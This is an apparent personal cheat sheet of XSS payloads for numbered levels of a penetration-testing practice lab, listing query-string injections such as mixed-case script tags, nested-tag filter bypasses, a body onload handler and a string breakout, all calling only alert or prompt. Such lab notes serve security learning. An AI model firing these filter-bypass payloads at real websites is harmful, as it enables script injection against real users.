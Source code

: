 # Pentester

## XSS

### 1

```bash
?name=<script>alert(1)</script>
```

---

### 2

```bash
?name=<sCRIPT>alert(1)</sCRIPT>
# usare uppercase, refresh browser history
```

---

### 3

```jsx
?name=<scr<script>ipt>alert(1)</scr</script>ipt>
```

---

### 4

```jsx
?name=<body%20onload="alert(1)">
```

---

### 5

```jsx
?name=<script>prompt(1)</script>
```

---

### 6

```jsx
?name=";alert(1);//
```

---

### 7
